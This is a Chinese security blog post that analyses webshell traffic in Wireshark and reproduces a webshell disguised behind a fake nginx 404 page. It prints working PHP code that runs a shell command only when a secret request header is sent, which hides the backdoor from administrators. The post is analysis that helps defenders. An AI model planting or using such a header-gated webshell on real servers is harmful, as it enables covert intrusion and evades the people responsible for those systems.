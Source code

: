```yaml
---
layout: post
author: d1sbb
title: "[分析] webshell 404状态码伪装 返回数据"
date: 2024-07-04
music-id: 
permalink: /archives/2024-07-04/1
description: "上传的webshell返回状态码404并且返回数据"
categories: "网络安全"
tags: [webshell, 404]
---
```


## 使用wireshark分析流量
抓到的流量包发现/WebReport/log2.jsp这个文件在反复请求

![log2.jsp](/assets/pic/webshell404/20240704104237.jpg)

HTTP Stream追踪流 看到返回状态码是404并且附带了加密数据

![log2.jspHTTPstream](/assets/pic/webshell404/20240704104337.jpg)

## 本地复现
log2.jsp是不管有没有数据都返回404状态码 我改成了执行返回命令返回400状态码
```php
<?php
if (isset($_SERVER['HTTP_HFZOAHV']) && $_SERVER['HTTP_HFZOAHV'] == '2yzB8Wzz5nK5') {
    // 伪装：根据修改请求头返回400状态码
    // 执行命令并返回结果
    header("HTTP/1.1 400 Bad Request");
    $output = shell_exec('dir');
    echo $output;
} else {
    header("HTTP/1.1 404 Not Found");
    echo "<html>";
    echo "<head><title>404 Not Found</title></head>";
    echo "<body>";
    echo "<center><h1>404 Not Found</h1></center>";
    echo "<hr><center>nginx</center>";
    echo "</body>";
    echo "</html>";
}
?>
```
如果管理员排查访问我们构造的恶意路径eval404.php则是404 Not Found

![log2.jspHTTPstream](/assets/pic/webshell404/正常打开404返回.jpg)

攻击者通过添加请求头得到状态码400和返回数据

![log2.jspHTTPstream](/assets/pic/webshell404/修改请求头.jpg)

总结：通过利用自定义Header来控制命令的执行，从而隐藏自己，以防止未授权的命令执行